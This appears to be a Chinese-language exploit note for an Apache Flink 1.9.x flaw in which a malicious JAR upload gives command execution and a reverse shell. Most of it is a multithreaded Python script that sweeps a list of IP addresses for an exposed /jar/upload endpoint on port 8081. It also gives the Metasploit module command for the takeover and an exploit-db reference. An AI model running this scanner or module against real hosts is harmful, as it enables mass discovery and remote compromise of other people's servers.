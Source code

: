 ## 漏洞概述
Apache Flink 1.9.x 恶意JAR包上传，导致任意命令执行，反弹shell

## 影响范围
```http
版本：<= 1.9.1
```

## POC
```python
import os
import subprocess
import requests
from multiprocessing.dummy import Pool as ThreadPool

def get_iplist():
    iplist = []
    with open('iplist', 'r') as file:
        data = file.readlines()
        for item in data:
            ip = item.strip()
            iplist.append(ip)
    return iplist


def poc(ip):
    url = 'http://' + ip + ':8081/jar/upload'

    try:
        res = requests.get(url=url, timeout=2)
        data = {
            'msg': res.json(),
            'state': 1,
            'url': url,
            'ip': ip
        }

    except:
        data = {
            'msg': 'Secure',
            'state': 0,
            'ip': ip
        }

    if data['state'] == 1:
        print(data)


if __name__ == '__main__':
    iplist = get_iplist()

    pool = ThreadPool(50)
    pool.map(poc, iplist)
```

## EXP

```bash
use exploit/multi/http/apache_flink_jar_upload_exec
```

## 参考链接

https://www.exploit-db.com/exploits/48978